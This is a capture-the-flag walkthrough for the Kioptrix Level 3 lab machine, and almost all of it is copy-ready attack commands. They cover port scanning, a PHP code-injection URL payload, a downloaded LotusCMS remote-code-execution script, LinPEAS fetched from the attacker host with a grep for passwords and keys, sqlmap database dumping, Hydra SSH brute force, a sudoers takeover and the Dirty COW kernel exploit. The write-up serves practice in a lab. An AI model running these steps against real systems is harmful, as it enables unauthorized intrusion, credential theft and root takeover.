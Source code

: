 
# 🛡️ Kioptrix Level 3 Walkthrough (CTF Guide)

## 🧭 1. Initial Recon

### Edit `/etc/hosts` to Resolve Domain
```bash
sudo nano /etc/hosts
```
Add the following:
```
192.168.204.137 kioptrix3.com
```

### Ping Discovery
```bash
sudo nmap -sn 192.168.204.0/24
```

### Port Scan
```bash
nmap -T4 -sS -Pn -p- 192.168.204.137
nmap -T4 -sS -A -Pn -p- 192.168.204.137
```

## 🧪 2. Web Enumeration

### Check for LFI / RCE

Try this payload in the browser:

```http
http://kioptrix3.com/index.php?page=index');echo system('id');//
```

If successful, you'll get output like:
```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## ⚙️ 3. Exploiting LotusCMS (if detected)

### Search for Exploit
```bash
searchsploit locuscms
searchsploit -m php/remote/18565.rb
```

### Alternatively, Use a Shell Script Exploit
```bash
wget https://raw.githubusercontent.com/Hood3dRob1n/LotusCMS-Exploit/master/lotusRCE.sh
chmod +x lotusRCE.sh
./lotusRCE.sh http://192.168.204.137 /
```

## 🔧 4. Reverse Shell Upgrade (After Gaining Access)

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
Then:
1. Press `Ctrl + Z`
2. Run:
```bash
stty raw -echo; fg
```
3. Press `Enter` to return to shell

## 🔍 5. Privilege Escalation - Part 1

### Download LinPEAS
On attack box:
```bash
python3 -m http.server 8080
```
On target machine:
```bash
wget http://192.168.204.136:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh > result.txt
```

### Grep for Credentials
```bash
grep -Ei 'password|passwd|shadow|id_rsa|private|secret|credential|key|token' result.txt
```

### Found in Web Config:
```bash
cat /home/www/kioptrix3.com/gallery/gconfig.php
```

## 🔐 6. SQL Injection to Dump DB

Using SQLMap:
```bash
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort --dbms=mysql --output-dir=sqlmap
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort --dbs --output-dir=sqlmap
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort -D gallery --tables --output-dir=sqlmap
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort -D gallery -T dev_accounts --dump --output-dir=sqlmap
```

Example credentials found:
```
Username: loneferret
Password: starwars
```

## 🔐 7. SSH Login / Brute Force

### Login with Password
```bash
ssh loneferret@192.168.204.137 -oHostKeyAlgorithms=+ssh-rsa
```

### Brute Force with Hydra (Optional)
```bash
hydra -l loneferret -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt 192.168.204.137 -t 4 ssh
```

## 🔓 8. Privilege Escalation - Part 2

### Check `sudo -l`
```bash
sudo -l
```
Example output:
```
(root) NOPASSWD: !/usr/bin/su
(root) NOPASSWD: /usr/local/bin/ht
```

### Escalate with `ht`
```bash
sudo ht /etc/sudoers
```

#### Edit to Add:
```
loneferret ALL=(ALL:ALL) NOPASSWD: ALL
```

Save and exit. Then:

```bash
sudo su
```

## 🧨 9. Dirty COW Exploit (Kernel Priv Esc)
https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
### Check Kernel
```bash
uname -a
cat /proc/version_signature
```

### Download Exploit
```bash
wget http://192.168.204.136:8080/dirty.c
```

### Compile Exploit
```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

### Run Exploit
```bash
./dirty password
```

Login with:
```bash
su firefart
```

## 🗂️ 10. Directory Brute-Forcing

```bash
ffuf -u http://kioptrix3.com/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.html,.txt -mc 200,204,301,302
```

## ✅ Summary

| Step                        | Tool/Command                                      |
|----------------------------|---------------------------------------------------|
| Host Discovery             | `nmap -sn`                                        |
| Port Scan                  | `nmap -sS -Pn -p-`                                |
| Web Exploit (RCE)          | `http://...system('id');//`                       |
| LotusCMS Exploit           | `lotusRCE.sh`                                     |
| Shell Upgrade              | `python -c 'import pty...`                        |
| LinPEAS + Grep             | `./linpeas.sh`, `grep -Ei 'password...'`          |
| SQL Injection              | `sqlmap -u ...`                                   |
| SSH Access                 | `ssh loneferret@...`                              |
| Privilege Escalation (ht)  | `sudo ht /etc/sudoers`                            |
| Privilege Escalation (dirtycow) | `gcc ...`, `./dirty`                      |
